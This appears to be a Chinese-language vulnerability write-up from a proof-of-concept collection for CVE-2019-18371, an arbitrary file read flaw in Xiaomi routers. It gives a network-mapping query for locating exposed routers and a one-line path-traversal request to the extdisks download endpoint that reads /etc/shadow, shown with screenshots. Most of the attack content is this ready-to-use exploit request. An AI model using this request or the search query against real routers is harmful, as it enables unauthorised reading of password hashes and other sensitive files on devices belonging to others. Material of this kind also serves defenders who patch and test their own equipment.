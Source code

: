 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

<a-checkbox checked>小米 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="小米路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1657436243071-4b71b87e-5cc9-4a15-8395-f50c27bda619.png)

验证POC

```php
/api-third-party/download/extdisks../etc/shadow
```

![img](../../../.vuepress/public/img/1657436392400-dea2fe94-8872-4f73-a405-d2ac6de42eb5.png)